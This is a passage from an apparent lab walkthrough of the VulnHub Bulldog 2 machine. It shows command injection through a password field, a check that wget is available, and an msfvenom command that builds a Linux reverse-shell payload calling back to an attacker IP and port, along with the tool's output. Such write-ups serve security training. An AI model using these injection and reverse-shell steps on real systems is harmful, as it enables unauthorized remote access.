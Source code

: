 
### Low-Privilege Shell

Armed with this knowledge, we can make use of command substitution to execute shell commands through the password field.

First, let's see if we can execute `wget`.

![wget](/assets/images/posts/bulldog-2-walkthrough/6f373de8.png)

Awesome. `wget` is available and it's running 64-bit.

![x86_64](/assets/images/posts/bulldog-2-walkthrough/8e106f77.png)

```
# echo -n 7838365f36340a | xxd -p -r
x86_64
```

Next, generate a 64-bit reverse shell with `msfvenom`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.30.129 LPORT=4444 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```


[1]: https://www.vulnhub.com/entry/bulldog-2,246/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com/